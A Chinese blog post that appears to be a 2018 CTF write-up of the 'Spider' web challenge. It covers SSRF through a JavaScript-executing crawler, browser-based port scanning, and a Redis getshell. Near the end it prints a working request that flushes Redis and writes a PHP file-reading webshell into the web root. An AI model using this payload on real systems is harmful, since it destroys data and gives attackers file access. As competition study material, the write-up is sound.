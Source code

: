 ```yaml
---
title: 网鼎杯第一场Web总结
date: 2018-06-03 11:13:40
tags:
- CTF
- Web
- Exploit
categories: CTF
description: 总结比赛中二道Web题目
---
```

一年没做CTF了，想来假期无聊去试试这个比赛。Web题目因为各种原因下午才真正放出

### 【第一题Spider】 

比赛的官方wrtieup：<https://mp.weixin.qq.com/s/yZ-Xp32tCPWbDiFgAHiWgw>

在这题比赛过程中暴露出的问题：

- 应该先扫目录和文件，CTF中robots、flag.php、后台等这类尤其重要
- javascript运用很不熟练。本题需要HTTP访问操作、端口扫描和结合redis的getshell操作
- 解决Web题需要具备的能力：快速搞懂应用流程，建立其运行模型，并且需要猜测服务端的运行原理

这道题的动态爬虫（因为服务端会解析并运行javascript）导致了一个SSRF

<https://segmentfault.com/a/1190000004322487>  XMLHttpRequest  教程，分析较深入

![img](http://saferman.github.io/assets/img/ctf/readyState.png)

可以页面调试，发现readyState会逐渐变换
XMLHttpRequest.status 返回服务器状态码   浏览器调试发现一直为0，后来明白执行了跨域操作
编写Javascript  执行AJAX请求和JS端口扫描 （参考官方writeup）



接着根据提示Redis getShell和8000端口：因为不同端口，所以存在跨域，需要加上Access-Control-Allow-Origin:* 头部。构造一个Redis EXP。（参考官方writeup）

Burp截包如下：

```
POST / HTTP/1.1
Host: 127.0.0.1:6379
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: /
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1/
Content-Length: 320
Content-Type: multipart/form-data; boundary=---------------------------15762740617557
Origin: http://127.0.0.1
Connection: close

-----------------------------15762740617557
Content-Disposition: form-data; name="0"

flushall
config set dir /var/www/html/
config set dbfilename shell.php
set 1 "\n\n<?php header('Access-Control-Allow-Origin:*'); echo file_get_contents($_GET[0]);?>\n\n"
save
quit
-----------------------------15762740617557--
```

至此写入webshell



